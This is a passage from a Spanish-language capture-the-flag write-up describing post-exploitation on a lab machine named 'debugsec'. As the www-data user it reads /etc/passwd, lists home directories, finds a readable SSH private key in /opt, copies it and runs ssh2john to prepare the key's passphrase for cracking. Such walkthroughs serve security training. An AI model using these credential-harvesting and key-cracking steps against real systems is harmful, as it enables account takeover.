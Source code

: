 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina Víctima y Crackeo de Llave Privada id_rsa</h2>

Veamos qué usuarios existen:
```bash
www-data@debugsec:/var/www/html$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
debugsec:x:1001:1001::/home/debugsec:/bin/bash
```
Solo existe el **usuario debugsec**.

Podemos ver su directorio y su contenido, pero no podremos ver la flag aún:
```bash
www-data@debugsec:/var/www/html$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 Jun 28  2024 .
drwxr-xr-x 18 root     root     4096 Jun 28  2024 ..
drwxr-xr-x  4 debugsec debugsec 4096 Jun 29  2024 debugsec
www-data@debugsec:/var/www/html$ ls -la /home/debugsec/ 
total 32
drwxr-xr-x 4 debugsec debugsec 4096 Jun 29  2024 .
drwxr-xr-x 3 root     root     4096 Jun 28  2024 ..
lrwxrwxrwx 1 root     root        9 Jun 28  2024 .bash_history -> /dev/null
-rw-r--r-- 1 debugsec debugsec  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 debugsec debugsec 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 debugsec debugsec 4096 Jun 29  2024 .local
-rw-r--r-- 1 debugsec debugsec  807 Apr 23  2023 .profile
drwx------ 2 debugsec debugsec 4096 Jun 28  2024 .ssh
-r-------- 1 debugsec debugsec   36 Jun 29  2024 user.txt
```

Buscando un poco, encontramos algo interesante en el directorio `/opt`:
```bash
www-data@debugsec:/var/www/html$ ls -la /opt
total 12
drwxr-xr-x  2 root     root     4096 Jun 28  2024 .
drwxr-xr-x 18 root     root     4096 Jun 28  2024 ..
-rwxr-xr-x  1 debugsec debugsec 3434 Jun 28  2024 id_rsa
```
Resulta ser la llave privada del **usuario debugsec** y la podemos leer.

Cópiala en tu máquina, dale los permisos correctos y obtén su hash con la herramienta **ssh2john**:
```bash
nano id_rsa
-----------
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1...
...
-----------
chmod 600 id_rsa
ssh2john id_rsa > hash
```
